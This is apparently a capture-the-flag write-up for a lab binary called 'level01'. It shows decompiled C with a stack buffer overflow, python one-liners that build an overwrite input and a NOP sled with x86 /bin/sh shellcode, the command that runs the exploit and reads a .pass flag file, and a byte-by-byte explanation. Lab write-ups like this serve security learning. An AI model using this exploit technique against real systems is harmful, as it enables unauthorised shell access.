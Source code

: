 #LEVEL 01

* decompile the binary
    ```c
    char in_user_name[256];
    char *user = "dat_wil";

    int verify_user_name() { return strncmp(user, in_user_name, 7); }

    int main() {
        int error;
        char password[64];
        ...
        fgets(in_user_name, 256, stdin);
        error = verify_user_name();
        if (error == 0) {
            fgets(password, 100, stdin);
        }
        ...
    }
    ```
  - store string username and compare it to `"dat_wil"`
  - if equal store string password
    + store 100 byte in buffer of 64 byte so we can override the return address

  ___

* prepare
    - python -c 'print "dat_wil"; print " " * 76 + "\x00\x00\x00\x00" + "\xc9\xd8\xff\xff"' > input
    - python -c 'print "\x90" * 100 + "\x31\xC9\xF7\xE1\x51\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\xB0\x0B\xCD\x80"' > shell_code
  ___

* exec bin: `cat input - | ./level01 $(cat shell_code)`
    - got the shell prompt
    - cat /home/users/level01/.pass -> flag

* explanation
    ```
    $ \x00\x00\x00\x00 -> ebp value in stack to not make the programe try to get the value from a bad address

    $ \xc9\xd8\xff\xff -> shell code stack address

    $ \x31\xC9\xF7\xE1\x51\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\xB0\x0B\xCD\x80 -> shell_code
    ```